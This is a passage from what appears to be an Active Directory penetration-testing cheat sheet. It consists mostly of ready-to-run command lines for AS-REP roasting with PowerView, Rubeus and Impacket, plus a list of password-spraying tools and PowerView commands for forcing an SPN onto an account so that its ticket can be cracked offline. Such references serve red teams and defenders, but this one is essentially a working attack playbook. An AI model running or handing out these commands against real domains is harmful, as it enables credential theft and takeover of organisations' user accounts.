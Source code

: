 ```text
#Get a specific Account's hash:
Get-ASREPHash -UserName $UserName -Verbose

#Get any ASREPRoastable Users' hashes:
Invoke-ASREPRoast -Verbose
```

#### Using Rubeus:

```text
#For $Format choose either hashcat or john

#Trying the attack for all domain users
Rubeus.exe asreproast /format:$Format /domain:$DomainName /outfile:$Out_File

#ASREPRoast a specific user
Rubeus.exe asreproast /user:$UserName /format:$Format /domain:$DomainName /outfile:$Out_File

#ASREPRoast users of a specific OU (Organization Unit)
Rubeus.exe asreproast /ou:$OU_Name /format:$Format /domain:$DomainName /outfile:$Out_File
```

#### Using Impacket:

```text
#Trying the attack for the specified users on the file
python GetNPUsers.py $DomainName/ -usersfile $Users_File -outputfile $Out_File
```

### Password Spray Attack

If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse on other domain accounts.

### **Tools:**

* [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
* [Spray](https://github.com/Greenwolf/Spray)

### Force Set SPN

_If we have enough permissions -&gt; GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and brute force it._

#### Using PowerView:

```text
#Check for interesting permissions on accounts:
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
 
#Check if current user has already an SPN setted:
Get-DomainUser -Identity $UserName | select serviceprincipalname
 
#Force set the SPN on the account:
Set-DomainObject $UserName -Set @{serviceprincipalname='ops/whatever1'}
```
